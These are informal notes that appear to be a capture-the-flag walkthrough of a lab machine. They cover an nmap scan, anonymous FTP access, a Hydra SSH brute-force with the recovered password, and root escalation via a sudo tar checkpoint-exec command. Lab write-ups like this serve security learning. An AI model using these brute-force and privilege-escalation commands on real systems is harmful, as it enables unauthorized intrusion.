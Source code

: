 
# Raw Notes
Started the server
did a basic nmap scan 
```bash
nmap -A 10.10.213.250 -T4
```

got 3 open ports:
- SSH
- FTP
- HTTP

ssh - we dont have creds yet 
lets go with FTP as Anonymous user as we got it in the nmap scan

boom we got logged into ftp
i was getting the passive mode thing so don't worry just write passive while in ftp and you will get what you need

got two file one with some tasks and a username - lin
second contained strings which were like passwords
we have ssh for it so it may contain password for the user "lin"

lets get hydra running
```bash
hydra -l lin -P locks.txt ssh://10.10.213.250 
```

we ran it and bingo got the password
```bash
[22][ssh] host: 10.10.213.250   login: lin   password: RedDr4gonSynd1cat3
```

using it to get ssh into system

bingo we are in the system and got the user.txt here

lets escalate our privilages now

lets see what lin can do 
```bash
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
lets search for anything that we can do with this over GTFO Bins

got something here as we can use sudo for tar we have a command to maintain shell and escalate privileges
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

boom we are root now and got access as a root and also the root flag
Done with the room